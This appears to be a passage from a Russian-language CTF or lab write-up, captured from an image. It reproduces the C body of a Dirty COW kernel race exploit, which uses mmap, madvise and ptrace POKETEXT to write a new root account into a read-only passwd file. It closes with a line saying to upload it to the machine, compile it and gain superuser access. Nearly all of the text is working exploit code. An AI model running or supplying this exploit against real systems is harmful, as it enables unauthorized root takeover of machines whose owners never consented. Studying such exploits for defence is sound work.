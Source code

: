 ```c=
  char *plaintext_pw;

  if (argc >= 2) {
    plaintext_pw = argv[1];
    printf("Please enter the new password: %s\n", plaintext_pw);
  } else {
    plaintext_pw = getpass("Please enter the new password: ");
  }

  user.hash = generate_password_hash(plaintext_pw);
  char *complete_passwd_line = generate_passwd_line(user);
  printf("Complete line:\n%s\n", complete_passwd_line);

  f = open(filename, O_RDONLY);
  fstat(f, &st);
  map = mmap(NULL,
             st.st_size + sizeof(long),
             PROT_READ,
             MAP_PRIVATE,
             f,
             0);
  printf("mmap: %lx\n",(unsigned long)map);
  pid = fork();
  if(pid) {
    waitpid(pid, NULL, 0);
    int u, i, o, c = 0;
    int l=strlen(complete_passwd_line);
    for(i = 0; i < 10000/l; i++) {
      for(o = 0; o < l; o++) {
        for(u = 0; u < 10000; u++) {
          c += ptrace(PTRACE_POKETEXT,
                      pid,
                      map + o,
                      *((long*)(complete_passwd_line + o)));
        }
      }
    }
    printf("ptrace %d\n",c);
  }
  else {
    pthread_create(&pth,
                   NULL,
                   madviseThread,
                   NULL);
    ptrace(PTRACE_TRACEME);
    kill(getpid(), SIGSTOP);
    pthread_join(pth,NULL);
  }

  printf("Done! Check %s to see if the new user was created.\n", filename);
  printf("You can log in with the username '%s' and the password '%s'.\n\n",
    user.username, plaintext_pw);
    printf("\nDON'T FORGET TO RESTORE! $ mv %s %s\n",
    backup_filename, filename);
  return 0;
}
```
Загружаем на машину, компилируем, получаем доступ к аккаунту с правами суперпользователя.
